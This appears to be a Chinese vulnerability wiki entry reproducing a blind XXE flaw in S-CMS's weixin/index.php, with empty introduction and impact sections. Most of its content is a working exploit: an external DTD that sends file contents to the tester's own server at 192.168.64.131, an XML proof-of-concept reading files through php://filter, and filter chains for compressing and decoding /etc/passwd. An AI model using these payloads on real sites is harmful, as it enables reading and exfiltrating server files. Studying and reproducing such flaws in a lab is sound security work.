 S-CMS xxe漏洞
=============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

全局搜索`simplexml`，在`weixin/index.php`发现漏洞

![](/Users/aresx/Documents/VulWiki/.resource/S-CMSxxe漏洞/media/rId25.jpg)

非常标准的XXE，没有任何过滤手段，往下并未发现有输出XML解析结果的地方，此处应用无回显的XXE攻击手段

### 漏洞复现

首先在自己的服务器（192.168.64.131）上创建一个供靶机外部引用的dtd文件（test.dtd）

    <!ENTITY % all 
        "<!ENTITY &#x25; send SYSTEM 'http://192.168.64.131/?%file;'>"
    >
    %all;

发送POC

    <?xml version="1.0"?>
    <!DOCTYPE ANY [
        <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/phpStudy/PHPTutorial/WWW/robots.txt">
        <!ENTITY % dtd SYSTEM "http://192.168.64.131/test.dtd">
    %dtd;
    %send;
    ]>

![](/Users/aresx/Documents/VulWiki/.resource/S-CMSxxe漏洞/media/rId27.jpg)

然后在Apache日志中查看到结果：

![](/Users/aresx/Documents/VulWiki/.resource/S-CMSxxe漏洞/media/rId28.jpg)

在这里发现一个问题，查看其它php文件的内容会发生`Detected an entity reference loop`错误，查询资料发现libxml解析器默认限制外部实体长度为2k，无法突破，只能寻找压缩解决方案（但效果不明显）

    压缩：echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd");
    解压：echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1");

参考链接
--------

> http://pines404.online/2019/10/31/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/S-CMS%E5%AE%A1%E8%AE%A1%E5%A4%8D%E7%8E%B0/
